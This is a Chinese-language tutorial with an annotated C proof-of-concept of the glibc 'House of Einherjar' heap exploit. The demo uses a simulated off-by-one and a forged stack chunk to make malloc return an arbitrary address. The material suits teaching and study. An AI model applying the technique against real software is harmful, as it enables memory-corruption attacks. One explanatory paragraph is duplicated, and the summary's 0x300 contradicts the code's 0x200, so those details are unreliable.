

## House Of Einherjar
此技术仅在 glibc 禁用 tcache-option 或 b 大于 0x408 时有效，有关构建说明，请参阅 build_glibc.sh。
如果在一个 malloc 编入的区域中存在一个off-by-one，则可以使用此方法。

House Of Einherjar这种堆块的利用方式与之前的有些区别，该技术可以强制使得malloc返回一个几乎任意地址的chunk。和之前的利用技术有一些区别，之前我们都是尽可能的避免释放堆块与top_chunk合并，因为释放之后的堆块可能会进行复用，比如在挂hook的时候我们需要两次对同一个释放堆块进行写操作。但是House Of Einherjar这种技术反而是，当释放堆块下一个块是top_chunk的时候，free会与相邻后向地址进行合并

Example code
```
  1 //gcc -g hollk.c -o hollk
  2 //glibc-2.23
  3 
  4 #include <stdio.h>
  5 #include <stdlib.h>
  6 #include <string.h>
  7 #include <stdint.h>
  8 #include <malloc.h>
  9 
 10 int main()
 11 {
 12         setbuf(stdin, NULL);
 13         setbuf(stdout, NULL);
 14 
 15         uint8_t* a;
 16         uint8_t* b;
 17         uint8_t* d;
 18 
 19         a = (uint8_t*) malloc(0x38);
 20         printf("a: %p\n", a);
 21     
 22         int real_a_size = malloc_usable_size(a);
 23         printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding:%#x\n", real_a_size);
 24 
 25         size_t fake_chunk[6];
 26     
 27         fake_chunk[0] = 0x100;
 28         fake_chunk[1] = 0x100;
 29         fake_chunk[2] = (size_t) fake_chunk;
 30         fake_chunk[3] = (size_t) fake_chunk;
 31         fake_chunk[4] = (size_t) fake_chunk;
 32         fake_chunk[5] = (size_t) fake_chunk;
 33         printf("Our fake chunk at %p looks like:\n", fake_chunk);
 这里将fake_chunk的prev_size、size部分设置为0x100，fd、bk、fd_nextsize、bk_nextsize设置为fake_chunk自身地址，这样做是为了绕过free()函数后向合并时最后的unlink检查
 34 
 35         b = (uint8_t*) malloc(0xf8);
 36         int real_b_size = malloc_usable_size(b);
 这段代码其实就是创建了一个size为0x108(0xf8+0x10)大小的chunk_b
 37         printf("b: %p\n", b);
 38 
 39         uint64_t* b_size_ptr = (uint64_t*)(b - 8);
 这里其实就是将chunk_b的malloc指针-0x8的位置，即chunk_b的size值放在了b_size_ptr变量中。这一步是为了更好的演示接下来溢出后的对比
 40         printf("\nb.size: %#lx\n", *b_size_ptr);
 41         a[real_a_size] = 0;
 a[real_a_size] = 0这段代码中的a[n]是以chunk_a的malloc指针为起始的指针数组，那么数组下标n指向的就是第n+1个字节的地址，也就是说a[real_a_size]其实指向的是以chunk_a的malloc指针为起始，第real_a_size + 1个字节的位置等于0。其实这里模拟的就是off-by-one的过程。那么这样一来chunk_b的inuse标志位就被覆盖成了0

 42         printf("b.size: %#lx\n", *b_size_ptr);
 43 
 44         size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
 45         printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
 46         *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
 
 real_a_size-sizeof(size_t)的位置其实就是chunk_a与chunk_b公用的chunk_b的prev_size位置，也就是说这一步模拟的是通过对chunk_a的data赋值后，影响chunk_b的prev_size，根据第46行的代码，我们可以知道chunk_b的prev_size背负上了fake_size。接下来又将fake_chunk的size部分也修改成了fake_size
 47 
 48         fake_chunk[1] = fake_size;
 
 real_a_size-sizeof(size_t)的位置其实就是chunk_a与chunk_b公用的chunk_b的prev_size位置，也就是说这一步模拟的是通过对chunk_a的data赋值后，影响chunk_b的prev_size，根据第46行的代码，我们可以知道chunk_b的prev_size背负上了fake_size。接下来又将fake_chunk的size部分也修改成了fake_size
```


将chunk_b与fake_chunk部署完成后，像上图一样摆在一起，这看起来就有那味儿了。chunk_b的prev_size等于fake_chunk的size，这个size恰巧又是chunk_b到fake_chunk的偏移，更巧的是chunk_b的inuse标志位为0




根据free()函数后向合并机制，由于我们部署了fake_chunk的fd、bk、fd_nextsize、bk_nextsize，所以可以绕过unlink检查，那么chunk_b与fake_chunk就被合并称为一个大小为fake_size + b_size的大堆块，并且合并大堆块的头指针即是fake_chunk的头指针0x00007fffffffdf00


那么如果chunk_b被释放掉，首先会去检查其inuse标志位，发现为0，这就意味着存在一个相邻地址的堆块也是处于释放状态的，那么就会根据chunk_b的prev_size先前找是否存在一个大小为0xffffd5555575a140大小的堆块，结果根据chunk_b的头指针+0xffffd5555575a140处找到了fake_chunk，fake_chunk的size正是我们部署的0xffffd5555575a140


```

 49 
 50         free(b);
 51         printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);
 52 
 53         d = malloc(0x200);
 这还不算完，根据top_chunk合并机制，由于chunk_b是紧邻top_chunk的，那么在chunk_b与fake_chunk合并之后top_chunk会将合并后的大堆块整个“吞掉”。新的top_chunk的size变成了old_top_size + fake_size + b_size。并且top_chunk的头指针会变成合并堆块的头指针，即fake_chunk的头指针0x00007fffffffdf00

接下来我们将断点下在第54行，执行free(b)和malloc(0x200)这两步操作。free(b)会完成上述的执行过程，而因为bin中没有能够满足malloc(0x200)的空闲块，所以会向top_chunk申请一个size为0x210(0x200+0x10)大小的堆块。由于此时top_chunk的头指针是fake_chunk0x00007fffffffdf00，所以最后被启用的堆块即是以fake_chunk为头指针0x00007fffffffdf00，size为0x210大小的堆块

这里由于pwndbg插件的heap指令无法识别heap段意外的区域，所以我们直接运行结束，打印出这个从top_chunk申请的堆块的头指针

 54         printf("Next malloc(0x200) is at %p\n", d);
 55 }

```

简单的描述一下这个程序，首先创建了一个size为0x48大小的chunk_a，并将其malloc指针赋值给指针变量a。接下来创建了一个数组fake_chunk，并在数组0和1下标处赋值0x100、在数组下标2、3、4、5处赋值fake_chunk的起始地址。接下来创建了一个size为0x108大小的chunk_b，并且其malloc指针赋值给变量b。然后将chunk_b的inuse标志位修改成0，将chunk_b的prev_size和fake_chunk的size均设置为chunk_b到fake_chunk的偏移。释放chunk_b后重新申请一个0x300大小的堆块


